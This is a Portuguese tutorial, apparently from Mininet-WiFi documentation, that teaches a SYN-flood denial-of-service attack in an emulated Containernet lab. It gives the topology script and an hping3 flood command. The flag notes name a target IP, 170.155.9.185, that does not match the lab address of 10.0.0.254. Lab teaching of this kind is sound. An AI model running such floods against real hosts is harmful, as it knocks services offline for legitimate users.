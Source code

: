 ************
Denial of Service (DoS)
************

Um ataque de negação de serviço (DoS) é uma tentativa de fazer com que algum serviço fique indisponível. Diferente de outros tipos de ataque, que estabelecem pontos de apoio ou sequestram dados, ataques DoS não ameaçam dados sensíveis. Este tipo de ataque tem apenas um objetivo de fazer com que sistemas fiquem indisponíveis para usuários legítimos. Contudo, alguns ataques DoS pode também serem usados para criar outros tipos de ataque para outras atividades maliciosas, como, por exemplo, derrubar firewalls de aplicativos da web, etc.).


.. Note::

    **Nesta demo você irá aprender como realizar o ataque de DoS:** 

    **Requisitos:** 
    
    - Containernet - https://github.com/ramonfontes/containernet
    - hping3
    
    **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Porém, para utilizar o containernet você deverá entrar no diretório ~/containernet e dentro dele executar o comando `sudo make install` Caso alguma dependência esteja faltando ela terá de ser resolvida.**
    

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:


.. code:: python

    #!/usr/bin/python
     
    """@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br"""

    from containernet.net import Containernet
    from containernet.node import Docker
    from containernet.cli import CLI
    from mininet.log import info, setLogLevel


    def topology():
        net = Containernet()

        info('*** Adding docker containers\n')
        h1 = net.addHost('h1', ip='10.0.0.1', cls=Docker,
                            dimage="ramonfontes/dos-attack")
        h2 = net.addHost('h2', ip='10.0.0.2', cls=Docker,
                         dimage="ramonfontes/dos-attack")
        h3 = net.addHost('h3', ip='10.0.0.254', cls=Docker,
                         dimage="ramonfontes/dos-attack")
        s1 = net.addSwitch('s1', failMode="standalone")

        info('*** Configuring WiFi nodes\n')
        net.configureWifiNodes()

        info("*** Associating Stations\n")
        net.addLink(h1, s1)
        net.addLink(h2, s1)
        net.addLink(h3, s1)

        info("*** Starting network\n")
        net.build()
        s1.start([])

        info('*** Running CLI\n')
        CLI(net)

        info('*** Stopping network\n')
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Então, após executar o código, um simples ataque DoS (não DDoS) poderia ser realizado através do comando abaixo:


.. code:: console

  mininet-wifi> h1 hping3 -S --flood -V -p 80 10.0.0.254


.. Note::

   - hping3: carrega o hping3
   -S: especifica pacotes SYN
   -flood: respostas serão ignoradas (é por isso que as respostas não serão mostradas) e os pacotes serão enviados o mais rápido possível
   -V: Verbosity
   -p 80: porta 80
   - 170.155.9.185: IP alvo

